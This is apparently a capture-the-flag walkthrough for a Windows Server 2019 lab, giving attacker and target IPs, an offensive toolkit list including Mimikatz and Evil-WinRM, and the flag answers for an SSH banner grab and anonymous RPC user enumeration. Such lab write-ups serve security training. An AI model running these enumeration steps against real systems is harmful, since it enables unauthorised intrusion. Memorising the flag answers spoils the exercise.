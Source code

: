 # Windows Server 2019 (WIN-TIP7RVRBJ8E) CTF Flag Capture Guide
## Pokemon CTF v5 - Complete Flag Instructions

### Environment Setup
- **Target Server IP**: 192.168.1.22 (WIN-TIP7RVRBJ8E)
- **Attacker Kali IP**: 192.168.1.7
- **Total Flags**: 25
- **Total Points**: 680

### Prerequisites
Before starting, ensure you have:
- Kali Linux with standard penetration testing tools
- Evil-WinRM installed (`gem install evil-winrm`)
- Impacket tools installed
- Mimikatz.exe ready for upload
- Python HTTP server for file transfers

---

## Initial Reconnaissance Phase

### FLAG 018: SSH Banner (10 points)
**Discovery Method**: SSH connection attempt reveals flag in banner
```bash
# From Kali (192.168.1.7):
ssh 192.168.1.22

# The banner will display:
# Welcome to Vulnerable SSH Server
# FLAG{ZAPDOS69523431}

# Press Ctrl+C to cancel the connection
```

---

## User Enumeration Flags

### FLAG 001: Admin User Description (10 points)
**Discovery Method**: RPC enumeration reveals flag in user description
```bash
# Connect via RPC with null session
rpcclient -U "" -N 192.168.1.22

# At the rpcclient prompt:
rpcclient $> enumdomusers
# This lists all users

rpcclient $> queryuser admin
# Look for the Description field containing:
# Description :   FLAG{PIKACHU15097304}

rpcclient $> quit
```
